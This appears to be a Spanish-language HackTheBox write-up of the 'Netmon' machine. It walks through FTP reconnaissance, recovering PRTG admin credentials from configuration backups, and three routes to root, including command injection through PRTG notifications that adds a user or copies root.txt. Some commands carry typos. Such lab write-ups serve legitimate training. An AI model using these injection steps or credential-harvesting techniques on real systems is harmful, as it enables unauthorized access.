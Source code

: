 ```yaml
---
layout: post
title: "Write Up Netmon. "
subtitle: "Starting-Point"
category: Blog
tags: [Easy,Genin,Windows,FTP,CVE,RCE,Protocols,Weak-Authentication,Information-Leakage,Lateral-Access,Anonymous_Guest-Access,Reconnaissance,Outdated-Software,Metasploit,Network,Vulnerability-Assessment,Reconnaissance,eJPTv2,eWPT,OSCP]
image:
  path: /assets/img/netmon/Captura de pantalla (142).png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
nmap -p- --open --min-rate 5000 -sS -n -vvv -Pn 10.10.10.152 -oA allports
```


![list](/assets/img/netmon/Kali-2022-09-09-15-00-11.png){:.lead width="800" height="100" loading="lazy"}


### Services and Versions


```bash
nmap -p21,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 -sV -sC 10.10.10.152 -oN target
```


***

## Vulnerability Analysis


### FTP TCP-21


Aunque tenemos muchos puertos abiertos, ninguno de ellos representa una vulnerabilidad excepto el puerto 21 (FTP) y el puerto 80 (Web).


```bash
ftp 10.10.10.52
```

{:.note}
Husmeando por los direcctorios en el escritorio nos encontramos con la flag de **user.txt**.


Enumeramos las tecnologías que utiliza la web con **WhatWeb** o **Wappalyzer**.


![list](/assets/img/netmon/Kali-2022-09-09-15-18-56.png){:.lead width="800" height="100" loading="lazy"}


También, si nos dirigimos a la web, podemos ver que tenemos la capacidad de iniciar sesión, por lo que podemos probar el uso de contraseñas por defecto buscando en Internet.


Si buscamos en Internet por [path traversal windows pressler] o buscamos manualmente en el **FTP**, encontraremos el archivo de configuración de **PRTG** y también la copia de seguridad. Con el comando `wget`, descargamos ambos archivos a la máquina atacante para analizar dichos documentos.


[path traversal windows pressler]: https://gist.github.com/SleepyLctl/823c4d29f834a71ba995238e80eb15f9


```bash
curlftpfs ftp://10.10.10.152 /mnt/montura
```

{:.note}
Esto es para movilizarnos con fluidez por el **FTP**, pero no es necesario.


Para movilizarnos con rapidez por los directorios de FTP, podíamos crear una montura con **Certutils**.


```bash
diff Configuration.old Configuration.old.bak -y | less
```

{:.note}
El parámetro -y es para que en pantalla aparezcan los dos documentos y sea más fácil su análisis. Encontramos un usuario y contraseña que usaremos en la página web para logearnos."


![list](/assets/img/netmon/Kali-2022-09-09-16-20-57.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
La credenciales son `User=prtgadmin` y `pass=PrTg@dmin2018`.


![list](/assets/img/netmon/Kali-2022-09-09-16-21-48.png){:.lead width="800" height="100" loading="lazy"}


Si buscamos en internet algún exploit relacionado con **PRTG** o vemos los archivos de la licencia de PRTG, encontramos una ruta a la cual hacen referencia que es `/myaccount.htm?tabid=2`. Si pegamos esta ruta después de la dirección IP y nos logueamos, seremos redirigidos a una sección donde se pueden crear notificaciones.


![list](/assets/img/netmon/Kali-2022-09-09-16-23-12.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/netmon/Kali-2022-09-09-16-37-44.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
En el FTP hay un **código HTML** que podemos decodificar en la terminal o mediante la web [codebeautify].


[codebeautify]: https://codebeautify.org/html-decode-string


***

## Exploitation and Privilege Escalation


Tenemos varias formas de obtener la flag **root.txt** pero vamos a ver tres.


### Primera forma


Es usar el exploit de GitHub el cual nos dice que necesitamos la cookie de sesión, la cual interceptamos con Burp Suite.


![list](/assets/img/netmon/Kali-2022-09-09-17-33-04.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Interceptar la cookie.


![list](/assets/img/netmon/Kali-2022-09-09-17-34-35.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
El exploit lo que hace es que crea o injecta un usuario y pass para el usuario root.


Luego con crackmaapexec nos loogeamos y obtenemos la flag de root.


```bash
crackmaapexec smb 10.10.10.152 -u "pentest" -p "P3nTest!"
```


### Segunda forma


Nos debemos crear una notificación en la cual podemos inyectar un **usuario** y **contraseña** para usar crackmapexec, SSH o una reverse-shell


![list](/assets/img/netmon/Kali-2022-09-09-16-49-48.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Creamos una notificacion llamada **test**.


En la parte más baja, en la sección de **Remote Execution Code**, existe la posibilidad de insertar líneas de comando para realizar lo antes mencionado de la siguiente manera.


```bash
C:\\User\\Public\\Texter; net user test test123 add/ 
```

{:.note}
Ya creado usamos crackmapexec. 


### Tercera forma


Es lo mismo que el paso anterio pero en ves crear **usuario** y **contraseña** copiamos la flags de root al directio FTP.


![list](/assets/img/netmon/Kali-2022-09-09-17-24-33.png){:.lead width="800" height="100" loading="lazy"}


```bash
tester.txt Copy-Item -Path "C:\Users\Administrator\Desktop\root.txt" -Destination "C:\Users\Public\texter.txt" -Recurse
```


{:.note}
Ya seria diriguirse a la ruta donde guardamos el recurso en el FTP. 


***
```bash
🎉 Felicitaciones ya has comprometido Netmon de HackTheBox 🎉
```
{:.centered}
***

Back to [Beginner-Track](2023-06-29-Beginer-Tack.md){:.heading.flip-title}
{:.read-more}

***
Back to [Certification eJPTv2 ](2023-07-03-Road-to-eJPTv2.md){:.heading.flip-title}
{:.read-more}

***
Back to [Certification eWPT ](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification OSCP](){:.heading.flip-title}
{:.read-more}

